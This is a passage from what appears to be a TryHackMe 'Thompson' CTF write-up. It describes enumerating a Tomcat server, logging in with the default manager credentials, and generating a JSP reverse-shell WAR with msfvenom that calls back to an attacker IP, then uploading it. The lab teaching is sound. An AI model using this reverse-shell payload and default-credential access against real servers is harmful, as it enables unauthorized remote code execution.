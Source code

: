 Allow entering password -> bruteforce attack(test later)

## port 8080 enumeration

Try something few CVE  after observing but all fails

```
1. Not Vulnerable to CVE-2017-12617 
2. Fail CVE-2020-9484 as it doesnot return internal server error
```
Let go and interact with Tomcat

Let first try default password on manager http://YourIp:8080/manager/status and we successfully login with username be `tomcat` and password be `s3cret`

We can do this into 2 ways
1. Do manually uploading and execute
2. Using metasploit framework

## Do manually uploading and execute
Navigate to http://YourIp:8080/manager/html and we can see a place of uploading war file

![](waruploaded.png)
<img src='/assets/img/Thompson-THM/waruploaded.png' alt=''>

I will use msfvenom to create war file and upload it.After uploading, i will execute it and get a shell

**Creating war file**
Command
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.18.18.117 lport=1234 -f war -o  shell.war
```
Output
```
Payload size: 1087 bytes
Final size of war file: 1087 bytes
Saved as: shell.war
```

**Uploading war file**

Navigate to http://YourIp:8080/manager/html and go to section of `WAR file to deploy`. You will see `Select WAR file to upload` with 2 buttons of Browse... and Deploy.Click Browser and choose your war file and click deploy

After upload it, you will see it in paths with name of that war in Applications.For mine, it was shell.war so name ot be seen ,it will be shell

![](uploadedshell.png)
